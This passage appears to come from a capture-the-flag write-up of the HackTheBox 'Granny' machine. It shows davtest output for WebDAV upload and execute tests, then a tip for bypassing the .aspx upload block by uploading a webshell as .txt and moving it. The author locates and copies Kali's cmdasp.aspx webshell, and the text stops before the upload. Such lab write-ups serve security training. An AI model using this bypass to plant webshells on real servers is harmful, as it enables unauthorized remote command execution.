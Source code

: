 ```bash
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.shtml
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.shtml;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.php
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.php;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.cfm
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.cfm;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.pl
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.pl;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.aspx
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.aspx;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.jsp
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.jsp;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.html
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.html;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.cgi
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.cgi;.txt
Executes: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.txt
Executes: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.txt;.txt
Executes: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.html
Executes: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.html;.txt
```

Although the result said `aspx` execution failed, but we can see it was actually successful

![](/assets/obsidian/566c1b9564fe9599396fb67cabb9d32d.png)

![](/assets/obsidian/dbd1c0810cd38ff14aae0e4a639ef79d.png)

### Upload webshell

> Uploading `aspx` files directly is prohibited, upload webshell in `.txt` then move it to `.aspx` to bypass
{: .prompt-tip }

Copy sample `aspx` webshell

```bash
┌──(bravosec㉿fsociety)-[~/htb/Granny]
└─$ locate webshell|grep aspx
...
/usr/share/webshells/aspx
/usr/share/webshells/aspx/cmdasp.aspx

┌──(bravosec㉿fsociety)-[~/htb/Granny]
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx cmd.txt
```
